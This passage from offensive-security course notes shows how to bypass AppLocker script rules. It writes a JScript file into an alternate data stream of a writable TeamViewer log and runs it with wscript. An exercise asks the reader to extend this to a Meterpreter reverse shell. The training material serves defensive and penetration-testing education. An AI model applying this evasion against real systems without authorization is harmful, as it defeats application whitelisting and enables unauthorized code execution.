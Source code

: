 > Listing 5 - Simple Jscript proof of concept

We'll save this as test.js in the student user's home directory. Since we have AppLocker scripting rules in place, we cannot execute it in its current location. However, if we can find a file in a trusted location that is both writable and executable, we could write the contents of this script to an alternate data stream inside that file and execute it, bypassing AppLocker.

For example, TeamViewer version 12, which is installed on the Windows 10 victim machine, uses a log file (TeamViewer12_Logfile.log) that is both writable and executable by the student user. We can use the native type[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5218-3) command to copy the contents of test.js into an alternate data stream of the log file with the : notation:

```
C:\Users\student>type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

> Listing 6 - Copying the contents of test.js into an ADS of the log file

We'll use dir /r to verify that the Jscript code was written to the alternate data stream:

```
C:\Users\student>dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
 Volume in drive C has no label.
 Volume Serial Number is 305C-7C84

 Directory of C:\Program Files (x86)\TeamViewer

03/09/2020  08:34 AM            32,489 TeamViewer12_Logfile.log
                                    79 TeamViewer12_Logfile.log:test.js:$DATA
               1 File(s)         32,489 bytes
               0 Dir(s)     696,483,840 bytes free
```

> Listing 7 - Verifying the ADS section with dir

The output in Listing 7 indicates that the script has been written to the alternate data stream. Now we must execute it.

If we simply double-click the icon for the log file, it would open the log (the primary stream) in _Notepad_ as a standard log file.

However, if we execute it from the command line with wscript, specifying the ADS, the Jscript content is executed instead, as shown in Figure 10.

![[OffSec/OSEP/Course/z. images/862f309b362c5c9bce5a66ac6ec83e9e_MD5.jpg]]

Figure 10: Executing the contents of the alternate data stream

In this case, the Jscript code executed and opened a new command prompt, despite the AppLocker script rules.

#### Exercises

1. Repeat the exercise to embed simple Jscript code inside an alternative data stream to obtain execution.
2. Replace the current Jscript code with a DotNetToJscript shellcode runner and obtain a Meterpreter reverse shell.
